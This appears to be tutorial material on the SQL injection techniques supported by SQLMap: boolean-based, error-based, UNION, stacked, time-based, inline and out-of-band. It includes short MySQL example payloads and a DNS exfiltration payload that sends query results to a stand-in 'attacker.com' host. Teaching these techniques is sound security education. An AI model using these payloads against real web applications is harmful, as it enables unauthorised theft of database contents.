

Supported Injection Types
These are the supported Injection Types by SQLMap
The technique characters BEUSTQ refers to the following:
• B: Boolean-based blind
• E: Error-based
• U: Union query-based
• S: Stacked queries
• T: Time-based blind
• Q: Inline queries
Boolean-based blind SQL Injection
Example:SQLMap exploits Boolean-based blind SQL Injection vulnerabilities through the differentiation of TRUE from FALSE query results, effectively retrieving 1 byte of information per request. The differentiation is based on comparing server responses to determine whether the SQL query returned TRUE or FALSE. This ranges from fuzzy comparisons of raw response content, HTTP codes, page titles, filtered text, and other factors.
• TRUE results are generally based on responses having none or marginal difference to the regular server response.
• FALSE results are based on responses having substantial differences from the regular server response.
• Boolean-based blind SQL Injection is considered as the most common SQLi type in web applications.
Error-based SQL Injection
Example:AND GTID_SUBSET(@@version,0)
If the database management system (DBMS) errors are being returned as part of the server response for any database-related problems, then there is a probability that
they can be used to carry the results for requested queries.
In such cases, specialized payloads for the current DBMS are used, targeting the functions that cause known misbehaviors. SQLMap has the most comprehensive list of such related payloads and covers Error-based SQL Injection for the following DBMSes:
| MySQL | PostgreSQL | Oracle |
|---|
| Microsoft SQL Server | Sybase | Vertica |
| IBM DB2 | Firebird | MonetDB |
Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.
UNION query-based
Example:UNION ALL SELECT 1,@@version,3
With the usage of UNION, it is generally possible to extend the original (vulnerable) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.
Stacked queries
Example:Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one.
In case that there is a requirement for running non-query statements (e.g. INSERT, UPDATE or DELETE), stacking must be supported by the vulnerable platform (e.g., Microsoft SQL Server and PostgreSQL support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.
Time-based blind SQL Injection
Example:The principle of Time-based blind SQL Injection is similar to the Boolean-based blind SQL Injection, but here the response time is used as the source for the differentiation between TRUE or FALSE.
◇ TRUE response is generally characterized by the noticeable difference in the response time compared to the regular server response
◇ FALSE response should result in a response time indistinguishable from regular response times
Time-based blind SQL Injection is considerably slower than the boolean-based blind SQLi, since queries resulting in TRUE would delay the server response. This SQLi type is used in cases where Boolean-based blind SQL Injection is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. INSERT, UPDATE or DELETE), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as Boolean-based blind SQL Injection would not really work in this case.
Inline queries
Example:SELECT (SELECT @@version) from
This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.
Out-of-band SQL Injection
Example:LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.
By running the SQLMap on the DNS server for the domain under control (e.g. .attacker.com), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. foo.attacker.com), where foo would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the foo part, to form the entire SQL response.